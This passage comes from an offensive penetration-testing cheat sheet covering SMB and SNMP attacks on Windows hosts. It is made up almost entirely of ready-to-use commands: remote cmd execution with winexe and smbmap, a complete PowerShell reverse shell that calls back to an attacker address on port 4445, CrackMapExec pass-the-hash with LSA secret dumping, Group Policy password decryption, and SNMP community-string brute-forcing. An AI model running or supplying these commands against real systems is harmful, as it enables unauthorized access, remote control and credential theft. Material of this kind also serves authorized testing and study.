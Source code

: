 ```
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\\\\Policies\\\\{REG}\\\\MACHINE\\\\Preferences\\\\Groups\\\\Groups.xml look for user&pass "gpp-decrypt "

# CrackMapExec
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa

# Impacket
python3 samdump.py SMB 172.21.0.0

# Check for systems with SMB Signing not enabled
python3 RunFinger.py -i 172.21.0.0/24

```

### Port 161/162 UDP - SNMP

```
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.11.1.111
nmap 10.11.1.111 -Pn -sU -p 161 --script=snmp-brute,snmp-hh3c-logins,snmp-info,snmp-interfaces,snmp-ios-config,snmp-netstat,snmp-processes,snmp-sysdescr,snmp-win32-services,snmp-win32-shares,snmp-win32-software,snmp-win32-users
snmp-check 10.11.1.111 -c public|private|community
snmpwalk -c public -v1 ipaddress 1
snmpwalk -c private -v1 ipaddress 1
snmpwalk -c manager -v1 ipaddress 1
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt 172.21.0.X

# Impacket
python3 samdump.py SNMP 172.21.0.0

# MSF aux modules
```